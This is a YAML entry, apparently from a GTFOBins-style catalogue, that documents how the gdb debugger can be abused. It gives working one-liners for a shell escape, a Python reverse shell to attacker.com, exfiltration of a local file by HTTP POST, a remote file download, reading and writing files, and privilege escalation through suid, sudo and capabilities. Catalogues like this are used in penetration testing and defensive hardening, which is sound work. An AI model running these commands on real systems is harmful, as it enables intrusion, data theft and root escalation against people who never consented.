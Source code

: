 ```yaml
---
name: gdb
functions:
  shell:
    - code: gdb -nx -ex '!sh' -ex quit
  reverse-shell:
    - description: This requires that GDB is compiled with Python support. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' -ex quit
  file-upload:
    - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
    - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
  file-download:
    - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
  file-write:
    - description: This requires that GDB is compiled with Python support.
      code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  file-read:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
  library-load:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
  suid:
    - code: ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
  sudo:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities:
    - description: This requires that GDB is compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
```

